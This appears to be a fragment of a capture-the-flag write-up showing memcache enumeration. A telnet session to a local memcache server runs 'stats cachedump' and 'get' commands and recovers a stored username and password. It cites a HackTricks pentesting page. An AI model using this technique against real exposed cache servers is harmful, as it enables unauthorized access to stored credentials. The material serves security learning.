 Let's check some advices on [HackTricks][ht]: [11211 - Pentesting Memcache](https://book.hacktricks.xyz/pentesting/11211-memcache)

```
$ telnet 127.0.0.1 11211
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
version
version
VERSION 1.5.6 Ubuntu

stats items
stats items
STAT items:1:number 5
...

stats cachedump 1 0
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END

get user
get user
VALUE user 0 5
luffy
END

get passwd
get passwd
VALUE passwd 0 9
0n3_p1ec3
END

get file
get file
VALUE file 0 7
nothing
END

get account
get account
VALUE account 0 9
afhj556uo
END

quit
quit
```
